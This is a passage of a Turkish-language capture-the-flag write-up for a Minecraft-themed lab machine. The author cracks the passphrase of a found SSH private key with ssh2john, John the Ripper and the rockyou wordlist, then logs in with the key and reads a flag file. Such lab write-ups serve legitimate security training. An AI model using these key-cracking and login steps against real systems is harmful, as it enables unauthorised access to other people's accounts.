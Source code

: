 Dosyanın içeriğini kopyalayacağım ve parolayı almak için ssh2john'u kullanacağım.

```bash
python usr/share/john/ssh2john.py id_rsa > hash
```

Ve parolayı buluyoruz.

```bash
john -w:/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 2 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
creepin2006      (id_rsa)
1g 0:00:00:06 DONE (2023-07-15 20:56) 0.1529g/s 2192Kp/s 2192Kc/s 2192KC/sa6_123..*7¡Vamos!
Session completed
```

Şimdi id_rsa'ya SSH ile bağlanabilmesi için 600 izni veriyoruz.

```bash
ssh -i id_rsa xxultimatecreeperxx@10.10.93.170
The authenticity of host '10.10.93.170 (10.10.93.170)' can't be established.
ECDSA key fingerprint is SHA256:okt+zU5MJ0D6EUFqOILqeZ9l1c9p53AxM90JQpBvfvg.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.93.170' (ECDSA) to the list of known hosts.
Enter passphrase for key 'id_rsa': 
xxultimatecreeperxx@cybercrafted:~$ whoami
xxultimatecreeperxx
xxultimatecreeperxx@cybercrafted:~$ export TERM=xterm
xxultimatecreeperxx@cybercrafted:~$ 
```

Minecraft server bayrağını bulalım. 

```bash
xxultimatecreeperxx@cybercrafted:/$ find / -name "minecraft_server_flag.txt" 2>/dev/null
/opt/minecraft/minecraft_server_flag.txt
xxultimatecreeperxx@cybercrafted:/$ ls -l /opt/minecraft/minecraft_server_flag.txt
-rw-r----- 1 cybercrafted minecraft 38 Jun 27  2021 /opt/minecraft/minecraft_server_flag.txt
xxultimatecreeperxx@cybercrafted:/$ cat /opt/minecraft/minecraft_server_flag.txt
THM{ba93767ae3db9f5b8399680040a0c99e}
xxultimatecreeperxx@cybercrafted:/$ 
```

Kullanıcımız minecraft grubunda

```bash
xxultimatecreeperxx@cybercrafted:/$ id
uid=1001(xxultimatecreeperxx) gid=1001(xxultimatecreeperxx) groups=1001(xxultimatecreeperxx),25565(minecraft)
xxultimatecreeperxx@cybercrafted:/$ 
```
